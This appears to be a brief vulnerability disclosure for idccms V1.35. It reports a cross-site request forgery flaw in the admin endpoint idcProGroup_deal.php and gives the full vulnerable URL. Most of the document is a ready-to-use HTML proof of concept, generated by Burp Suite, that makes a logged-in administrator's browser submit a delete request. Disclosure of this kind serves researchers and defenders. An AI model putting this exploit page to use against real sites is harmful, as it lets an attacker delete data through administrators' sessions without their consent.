 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/idcProGroup_deal.php?mudi=del&dataType=&dataTypeCN=IDC%E5%95%86%E5%93%81%E7%BB%84&theme=cs2&dataID=1

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/idcProGroup_deal.php?mudi=del&dataType=&dataTypeCN=IDC%E5%95%86%E5%93%81%E7%BB%84&theme=cs2&dataID=1" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
